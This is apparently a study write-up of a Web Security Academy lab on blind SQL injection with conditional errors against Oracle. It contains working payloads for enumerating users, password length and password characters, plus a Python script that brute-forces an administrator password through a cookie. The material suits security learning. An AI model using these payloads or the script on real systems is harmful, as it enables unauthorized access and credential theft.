








# Blind SQL injection with conditional errors (ORACLE DB)

* For this case is really important to understand that, the only notice that we have to know if something has been introduce ok or not is if there is an error or not.

For the case that i was studying, i have tried to cause the error using SQL statement. However it was a oracle database, so,  i was able to retrieve useful information  using oracle commands

<mark style="color:orange;">**'||(select case when (1=2) then to\_char(1/0) else null end from dual)||'**</mark>

<figure><figcaption></figcaption></figure>

If the statement is correct 1=1 we generate an error

<figure><figcaption></figcaption></figure>

if the statement is incorrect we do not generate any error

<figure><figcaption></figcaption></figure>

Then to enumerate the database lets see if administrator user exist:

`'||(select case when (1=1) then to_char(1/0) else '' end from users where username='administrator')||'`

In this statement if username='administrator' is True the part of the instruction where the error exist will be invoque:\
`select case when (1=1) then to_char(1/0)`&#x20;

Otherwise, if username='administrator' doesn't exist it will not show any error

<figure><figcaption><p>Administrator user exist</p></figcaption></figure>

The next step is to try to obtain the password length, to do this we use the following command:

\
`'||(select case when (1=1) then to_char(1/0) else '' end from users where username='administrator' and length(password)>=20)||'`

length(password)>$ we fuzz that statement and check the output, as we can see the error stop at line 21 it means that the password has a length of 20 characters. The next step is to detect the value of each position.

<figure><figcaption></figcaption></figure>

Enumerating username/password position character in oracle

USERNAME

`'||(select case when substr(username,1,1)='b' then to_char(1/0) else '' end from users where username='administrator')||'`

PASSWORD

`'||(select case when substr(password,1,1)='fuzzing' then to_char(1/0) else '' end from users where username='administrator')||'`

In this case the first field of the 20 characters password is "i" cause during the fuzzing attack it was the only character that return an error

<figure><figcaption></figcaption></figure>

Creating a regex to add a column HTTP status (From Intruder)

<div>

<figure><figcaption></figcaption></figure>

 

<figure><figcaption></figcaption></figure>

</div>

Attacking using cluster bomb

In the cluster bomb attack the main difference is that we select two variables to modify so for this context we can fuzz in the password from 0-9 and in character from 0-9 and A-Z (This case we know that password doesn't have symbols cause its a practice scenario).

<figure><figcaption></figcaption></figure>

Python script for sql injection error status

```
from pwn import *
import requests,signal,time,pdb,sys,string

def def_handler(sig, frame):
    print("*\n\n [!] Saliendo...\n")
    sys.exit()

#ctrl+c

signal.signal(signal.SIGINT, def_handler)

main_url = "https://0a0100f6038fd3cc8220061d00df00c4.web-security-academy.net"
characters = string.ascii_lowercase + string.digits

def makeRequest():
    password = ""
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")
    time.sleep(2)
    p2 = log.progress("Password")

    for position in range(1,21):
        for character in characters:
            cookies = {
                'TrackingId': "PCys85TEo6qFVYqY'||(select case when substr(password,%d,1)='%c' then to_char(1/0) else '' end from users where username='administrator')||'" % (position, character),
                'session': 'wP97ksPRh3hrzHmHOSaSEb0LRzo5kLON'
            }
            p1.status(cookies['TrackingId'])
            r = requests.get(main_url, cookies = cookies)

            if r.status_code == 500:  ###We put error status here
                password += character
                p2.status(password)
                break
makeRequest()
```

